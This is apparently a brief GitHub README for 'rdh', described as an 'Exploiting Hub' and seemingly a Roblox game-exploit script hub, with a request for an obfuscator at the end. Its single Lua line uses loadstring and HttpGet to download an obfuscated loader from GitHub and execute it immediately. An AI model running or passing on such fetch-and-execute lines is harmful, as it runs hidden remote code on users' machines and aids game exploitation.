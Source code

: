 # rdh
Exploiting Hub

```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/rafedaniels/rdh/main/loaderObfed.lua", true))()
```

PD: Xandu please give me Vestra Obfer
